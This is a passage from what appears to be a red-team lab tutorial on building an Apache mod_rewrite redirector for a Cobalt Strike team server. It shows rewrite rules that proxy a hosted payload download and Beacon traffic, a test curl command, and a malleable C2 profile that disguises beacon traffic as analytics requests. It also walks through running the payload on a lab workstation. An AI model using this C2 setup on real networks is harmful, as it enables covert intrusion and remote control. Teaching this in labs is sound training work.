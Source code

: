 
Adding an "allowed" user agent let's it through.
```bash
ubuntu@redirector-1 ~> curl -k -A "mozilla" --cookie "TestCookie=Blah" https://localhost
```

# URI & Query Rules

The final two directives to cover here are `%{REQUEST_URI}` and `%{QUERY_STRING}`.

The request URI is the portion that comes directly after the host IP/hostname, e.g. http://localhost/**index.php**.  The query string is anything that comes after the URI, e.g. http://localhost/index.php**?id=1**.

These in combination are also great for only proxying traffic that match our C2 profile.  Since we're using the `webbug_getonly` profile, we know what those will be for our Beacon.  The URI for GETs is `/___utm.gif` and for POSTs is `/__utm.gif` (identical apart from the number of prepended underscores).

Start off with the following:
```bash

RewriteEngine on

RewriteCond %{REQUEST_URI} win-payload [NC]
RewriteRule .* https://localhost:8443%{REQUEST_URI} [P]

RewriteCond %{REQUEST_URI} __utm.gif [NC]
RewriteRule .* https://localhost:8443%{REQUEST_URI} [P]
```
  

The first rule will allow the target to download the hosted payload, and the second rule will proxy the URI for the C2 traffic.  Open the console to **WKSTN-1**, launch Edge and navigate to **https://10.10.5.39/win-payload**.  Ignore the SSL warning (because we're using a self-signed certificate) to download the payload, then run it.

All being well, you will get a Beacon that you can issue tasks to and get the results.

We can get even more specific in the RewriteCond directive, because currently, any request that contains `__utm.gif` will get proxied.  We can go back to the C2 profile and look at the other parameters that are included in the requests.  The following is from the `http-get` block in `webbug_getonly.profile`.
```bash
set uri "/___utm.gif";
client {
        parameter "utmac" "UA-2202604-2";
        parameter "utmcn" "1";
        parameter "utmcs" "ISO-8859-1";
        parameter "utmsr" "1280x1024";
        parameter "utmsc" "32-bit";
        parameter "utmul" "en-US";

        metadata {
                base64url;
                prepend "__utma";
                parameter "utmcc";
        }
}
```
  